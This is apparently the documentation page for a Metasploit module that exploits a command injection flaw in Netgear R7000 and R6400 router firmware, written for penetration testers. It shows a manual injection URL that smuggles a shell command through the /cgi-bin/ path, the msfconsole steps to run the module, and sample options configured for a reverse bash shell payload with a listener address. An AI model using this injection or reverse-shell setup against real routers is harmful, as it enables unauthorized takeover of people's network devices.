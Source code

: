The netgear_r7000_cgibin_exec module exploits a command injection vulnerability in Netgear R7000 and R6400 router firmware version `1.0.7.2_1.1.93` and possibly earlier. The vulnerability is found in the `/cgi-bin/` folder of the router. A manual injection would look like so: `http://<RouterIP>/cgi-bin/;echo$IFS"cowsay"`. This will echo 'cowsay' on the router. 


## Vulnerable Application

Netgear R7000 and R6400 routers running firmware version `1.0.7.2_1.1.93` and possibly earlier.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/http/netgear_r7000_cgibin_exec`
  3. Do: `set RHOST <RouterIP>`
  4. Do: `set PAYLOAD <payload>
  5. Do: `run`
  6. If the router is a R7000 or R6400, the module should run

## Options

  **RHOST**

  This should usually be the local IP address of the vulnerable router.

  **PAYLOAD**
  
  The valid payloads are `cmd/unix` payloads _only_, as this is a command execution module

## Scenarios

  Sample output of the options looks like so 

  ```
  msf exploit(netgear_r7000_cgibin_exec) > options

Module options (exploit/linux/http/netgear_r7000_cgibin_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.1.1      yes       The target address
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.153.34   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

msf exploit(netgear_r7000_cgibin_exec) > 
  ```
  
  

